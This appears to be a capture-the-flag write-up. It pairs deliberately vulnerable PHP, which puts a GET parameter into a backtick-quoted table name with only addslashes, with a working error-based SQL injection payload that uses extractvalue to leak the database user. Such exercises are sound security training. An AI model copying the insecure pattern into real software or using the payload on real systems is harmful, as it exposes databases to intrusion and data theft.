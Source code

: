 # Challenge
```php 
<?php
$link = mysqli_connect('localhost', 'root', 'root');
mysqli_select_db($link, 'code');

$table = addslashes($_GET['table']);
$sql = "UPDATE `{$table}` 
        SET `username`='admin'
        WHERE id=1";
if(!mysqli_query($link, $sql)) {
    echo(mysqli_error($link));
}
mysqli_close($link);
```



# Solution

payload

```mysql
md5` t left join (select char(97) as user from dual where (extractvalue(1,concat(0x7e,(select user()),0x7e)))) tt on tt.user=`t.username
```

# Refference

+ [关于一个sql注入注入题目的思考](https://paper.seebug.org/216/)

